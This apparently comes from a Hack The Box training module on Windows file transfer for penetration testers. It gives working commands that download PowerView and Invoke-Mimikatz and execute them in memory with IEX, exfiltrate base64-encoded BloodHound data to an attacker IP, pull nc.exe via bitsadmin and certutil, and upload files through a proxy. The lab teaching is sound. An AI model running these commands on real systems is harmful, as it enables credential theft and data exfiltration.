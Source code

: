 # PowerShell Downloads

## System.Net.WebClient
In most environments, HTTP/HTTPS traffic is allowed out of the firewall in some form - and if we have a GUI session, a web browser could also be used. However, from a Windows shell, PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP.

```powershell
PS C:\htb> (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases iwr, curl, and wget can be used instead of Invoke-WebRequest.

```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias iex.

```powershell 
PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.
```powershell  
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```
There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.
![Picture_of_IEengine](https://academy.hackthebox.com/storage/modules/24/IEerror.png)
![Picture_of_IE](https://academy.hackthebox.com/storage/modules/24/IE_settings.png)

This can be bypassed using the parameter -UseBasicParsing.

```
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
PS C:\htb> Invoke-CheckLocalAdminAccess

ComputerName IsAdmin
------------ -------
localhost      False
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```powershell 
C:\htb> reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```
Powershell download cradles that do not observe Internet Explorer’s first-run check can also be used. Harmj0y has compiled an extensive list of PowerShell download cradles here. It is worth gaining familiarity with them and their individual nuances, such as not observing a proxy or touching a disk to select the appropriate one for the situation.

## PowerShell File Uploads

It is also possible to upload files using Powershell using Invoke-WebRequest or Invoke-RestMethod.

```powershell  
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
```
```powershell
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```
After catching the base64 data with Netcat, the payload can be decoded.

```powershell  
Ryohei@htb[/htb]$ echo <base64> | base64 -d -w 0 > bloodhound.zip
```

## Bitsadmin
The Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user’s foreground work.

````powershell  
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
````
PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

## Download
````powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
````
## Upload
````powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
````

## Certutil
Casey Smith (@subTee) found that certutil can be used to download arbitrary files. It is available in all Windows versions and has been a very popular file transfer technique, essentially serving as Wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.
```powershell
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
